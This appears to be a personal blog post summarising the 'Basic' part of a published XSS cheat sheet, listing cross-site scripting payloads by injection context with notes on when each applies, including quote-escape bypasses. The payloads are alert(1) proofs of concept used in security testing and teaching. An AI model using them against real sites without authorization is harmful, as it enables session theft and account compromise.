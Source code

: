 # Introduction  

I downloaed a pdf file XSS CHEAT SHEET from [https://brutelogic.com.br/blog/](https://brutelogic.com.br/blog/) for 2 months ago. I was planning to read it but I was lazy. So write it down seem like the good choice to "read" and also share with everyone who interested. This cheat sheet has 5 parts including:

1. Basic  
2. Advanced  
3. Filter Bypass  
4. Exploitation  
5. Miscellaneous  

This post is the 1st part(Basic).  

# Basic  

#### HTML Context - Simple Tag Injection  
Use when input lands inside an attribue's value of an HTML tag or outside tag except the ones described in next case.  

```sh  
<svg onload=alert(1) >
"><svg onload=alert(1)>
```  

#### HTML Context - In Block Tag Injection  
Use when input lands inside or between opening/closing of the tags:
```sh  
<title><style><script><textaea><noscript><pre><xmp> and <iframe>( </tag> is accordingly)  
```  

```sh  
</tag><svg onload=alert(1)>
"></tag><svg onload=alert(1)>  
```  

#### HTML Context - Inline Injection  
Use when input lands inside an attribute's value of an HTML tag but tag can't be terminated by greater than sign(>)  

```sh  
"onmouseover=alert(1)//  
"autofocus/onfocus=alert(1)//  
```  

### HTML Context - Source Injection  
Use when input lands as a value of the following HTML tag attributes: ```href, src, data or action``` (also formaction). For src in script tag use an external script call (URL) or "data:,alert(1)". 2nd payload below alerts out of target's context for Webkit browsers.  

```sh  
javascript:alert(1)
data:text/html,<svg onload=alert(1)>  
```  

#### Javascript Context - Code Injection  
Use when input lands in a script block, inside string delimited value.  

```sh  
'-alert(1)-'  
'-alert(1)//
```  

#### Javascript Context - Code Injection with Escape Bypass  
Use when input lands in a script block, inside a string delimited value but quotes are escaped by a blackslash.  

```sh  
\'-alert(1)//  
```  

#### Javascript Context - Code Injection in Logical Block  
Use 1st or 2nd payloads when input lands in a script block, inside a string delimited value and inside a single logical block like function or conditional(if, else, etc). If quote is excaped with a blackshash, use 3rd payload.  

```sh  
'}alert(1);{'
'}alert(1)%0A{'
\'}alert(1);{//
```  

#### Javascript Context - Tag Injection  
Use when input lands anywhere in a script block.  

```sh  
</script><svg onload=alert(1)>
```  



